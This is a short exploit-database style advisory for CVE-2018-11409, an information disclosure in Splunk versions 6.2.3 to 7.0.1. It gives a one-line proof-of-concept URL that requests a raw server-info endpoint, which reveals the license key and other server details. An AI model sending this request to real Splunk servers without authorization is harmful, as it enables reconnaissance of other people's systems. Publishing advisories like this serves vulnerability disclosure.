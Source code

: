 # splunk
# Exploit Title: [information disclosure]
# Google Dork: [n/r]
# Date: [23/05/2018]
# Exploit Author: [KoF2002]
# Vendor Homepage: [https://www.splunk.com/]
# Software Link: []
# Version: [6.2.3 - 7.01 MAYBE ALL VERSION AFFECTED] 
# Tested on: [linux os]
# CVE : [CVE-2018-11409]
# [Attack Type] [Remote]

------------------------------------------------------

 Splunk through 6.2.3 7.0.1 allows information disclosure by appending

/__raw/services/server/info/server-info?output_mode=json to a query,

as demonstrated by discovering a license key and other information.


PoC :

https://127.0.0.1:8000/en-US/splunkd/__raw/services/server/info/server-info?output_mode=json

--------------------------------------

Greats TO : Cold z3ro , ihab pal and all HTLovers "We Are Back"

https://www.0x30.cc/core/
